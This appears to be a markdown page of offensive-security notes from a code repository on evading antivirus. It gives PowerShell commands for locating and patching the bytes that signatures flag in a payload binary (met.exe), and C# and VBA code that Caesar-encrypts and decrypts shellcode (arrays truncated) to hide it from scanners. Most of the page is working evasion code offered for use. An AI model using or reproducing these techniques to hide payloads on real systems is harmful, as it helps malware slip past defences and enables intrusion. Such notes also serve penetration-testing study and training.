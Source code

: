 # AV evasion
Falls into 2 main methods or categories

## Signature based detection
AV software scans files usually when they are downloaded or right before execution. This method relies on matching known malicious signatures to a file. 

### Locating and fixing signatures

```
Import-Module .\Find-AVSignature.ps1

Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force

# Now use clamscan to check which byte sequences are flagged
.\clamscan.exe C:\Tools\avtest1

# Change byte offset to evade av
# Sometimes modifying exact byte won't produce results and byte before or after needs to be changed.
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

### Custom shellcode encryption

#### Caesar encryption

```
namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                }
                
            byte[] encoded = new byte[buf.Length];
            for(int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
            
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
			foreach(byte b in encoded)
			{
			    hex.AppendFormat("0x{0:x2}, ", b);
			}

			Console.WriteLine("The payload is: " + hex.ToString());
		}
	}
}	
```
#### Caesar decryption
```
byte[] buf = new byte[752] {0xfe, 0x4a, 0x85, 0xe6, 0xf2...

for(int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
}
```

#### Caesar encryption for VBA
```
using System;
using System.Runtime.InteropServices;
using System.Text;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
                0xfc,0x48,0x83,0xe4,0xf0...
                }


            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
            uint counter = 0;
            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("{0:D}, ", b);
                counter++;
                if(counter % 50 == 0)
                {
                    hex.AppendFormat("_{0}", Environment.NewLine);
                }
            }

            Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```

#### Caesar decryption for VBA
```
For i = 0 To UBound(buf)
    buf(i) = buf(i) - 2
Next i
```